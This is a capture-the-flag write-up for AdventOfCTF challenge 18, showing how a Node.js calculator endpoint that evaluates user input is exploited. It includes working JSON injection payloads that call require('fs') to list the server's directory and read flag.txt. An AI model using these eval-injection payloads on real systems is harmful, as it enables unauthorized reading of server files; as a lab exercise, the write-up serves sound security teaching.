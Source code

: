 +++
author = "Maik de Kruif"
title = "Evaluations"
subtitle = "Challenge 18 - AdventOfCTF"
date = 2021-01-06T23:04:52+01:00
description = "A writeup for challenge 18 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/be40bcd25e7487440a64b13cd32049b2.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_18"
]
+++

- Points: 1800

## Description

We created a calculator for Santa to figure out how many days until Christmas remain. It is not finished yet, it will only return what you give it. Sort of. The flag is in flag.txt.

Visit <https://18.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

## Finding the vulnerability

If we capture the request with a proxy like Burp, we can see it sends a `POST` request with some JSON data. It looks like this:

```json
{
  "calc": "3+4"
}
```

To find out how the calculator works internally we can try to send some data it doesn't expect to try to break it. An example would be sending an empty post request.

If we try that we get the following error back:

```text
TypeError: Cannot read property 'toString' of undefined
    at /opt/app/server.js:14:13
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
    at done (/opt/app/node_modules/raw-body/index.js:213:7)
    at IncomingMessage.onEnd (/opt/app/node_modules/raw-body/index.js:273:7)
    at IncomingMessage.emit (events.js:203:15)
    at endReadableNT (_stream_readable.js:1145:12)
    at process._tickCallback (internal/process/next_tick.js:63:19)
```

This hints at a NodeJS Express server, but it does not give us much information about the calculation besides a `toString` which would be unnecessary if the output would always be a number. This could hint at an `eval` vulnerability.

A NodeJS Express server often has a `res` variable to which the request result is written. Let's try to get it by entering it in de input field.

```json
{
  "calc": "res"
}
```

The result is `[object Object]` which means the input is evaluated.

## Exploit

Now we know the input is evaluated, we can try to read the flag. To find the file, let's try to list the directory contents.

In NodeJS we can do this by using the `fs` module and using the `readdirSync()` function. The resulting code would be `require('fs').readdirSync('.')`.

The resulting request:

```json
{
  "calc": "require('fs').readdirSync('.')"
}
```

This gives us the following result:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Now that we know the location of the flag (`flag.txt`), we can use the `readFileSync()` function to read the file:

```json
{
  "calc": "require('fs').readFileSync('flag.txt')"
}
```

## Solution

We got the flag! It is `NOVI{N3v3r_us3_eval}`.
